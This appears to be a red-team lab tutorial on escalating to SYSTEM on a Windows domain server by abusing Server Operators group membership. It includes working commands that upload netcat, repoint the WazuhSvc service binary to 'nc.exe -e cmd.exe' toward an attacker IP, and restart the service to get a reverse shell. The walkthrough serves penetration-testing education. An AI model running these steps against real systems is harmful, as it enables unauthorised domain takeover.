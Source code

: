 ```yaml
---
title: "Domain Privilege Escalation Server Operator Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Domain Privilege Escalation
  - Active Directory
  - RedTeam
---
```


The Windows Server operating system uses two types of security principals for authentication and authorization: user accounts and computer accounts. These accounts are created to represent physical entities, such as people or computers, and can be used to assign permissions to access resources or perform specific tasks. Additionally, security groups are created to include user accounts, computer accounts, and other groups, in order to make it easier to manage permissions. The system comes pre-configured with certain built-in accounts and security groups, which are equipped with the necessary rights and permissions to carry out functions.

### Introduction to windows privileged groups

In Active Directory, privileged groups are also known as security groups. Security groups are collections of user accounts that have similar security requirements. By placing user accounts into appropriate security groups, administrators can grant or deny access to network resources in bulk. Security groups can be used to grant or deny access to network resources, such as shared folders, printers, and applications. They can also be used to assign permissions to user accounts, such as the ability to create, delete, or modify files.



### What is Server operator group

(Members can modify services, access SMB shares, and backup files)
The Server Operator group is a special user group that often has access to powerful commands and settings on a computer system. This group is typically used for managing a server or for troubleshooting system problems. Server Operators are usually responsible for monitoring the server’s performance, managing system security, and providing technical support to users. They may also oversee installing software updates, creating and maintaining user accounts, and performing routine maintenance tasks.

### Lab Configuration

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**”

We are going to add a user aarti to the active directory security group for the demonstration. To do that, go to **“users**” select “**carole.rose**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-2.png)](https://r00tven0m.github.io/)
That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-3.png)](https://r00tven0m.github.io/)


A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **server operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-4.png)](https://r00tven0m.github.io/)


We can verify whether a user is added to the server operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user carole.rose to server operators’ group.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-5.png)](https://r00tven0m.github.io/)


We end up with our lab set up here and logged in as low privileged user in the server where we can see user carole.rose is in the server operators’ group. In this example, we have connected to the compromised host using the winrm service using the evil-winrm tool. To check group permission, we can simply use the inbuilt command "net user username", it will show what groups the current user belongs to. To reproduce the concept, please follow the commands below
[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-6.png)](https://r00tven0m.github.io/)


Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege. We listed services running on the server by issuing “**services**” command in our terminal where we can see list of services are there. Then we noted the service name “**WazuhSvc**” and service binary path for lateral usage.

[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-7.png)](https://r00tven0m.github.io/)

### Exploitation

Then we transferred **netcat.exe** binary to the compromised host and changed the binary path of the service. The reason we are changing the binary path is to receive a reverse connection as system user from the compromised hosts.

**How it works?**

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host. Please note, we need to specify the attacker’s IP address and listening port number with the netcat binary.

Steps to reproduce the POC:

```bash
upload nc.exe
sc.exe config WazuhSvc binPath="C:\Users\carole.rose.CBANK\Documents\nc.exe -e cmd.exe 192.168.56.1 9001"
```
[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-8.png)](https://r00tven0m.github.io/)

Then we will stop the service and start it again. So, this time when service starts, it will execute the binary that we have set in set earlier. Please, set up a netcat listener on the kali system to receive system shell before starting service and service start and stop commands from compromised hosts.

```bash
nc -nvlp 9001
sc.exe stop WazuhSvc
sc.exe start WazuhSvc
```
[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-9.png)](https://r00tven0m.github.io/)

We have received a reverse  shell from the compromised host as **nt authority\system**. To verify it simply run “**whoami**” command.


[![Image Alt Text](/assets/img/posts/Domain-Privilege-Escalation/Server-Operator/2024-02-12-10.png)](https://r00tven0m.github.io/)
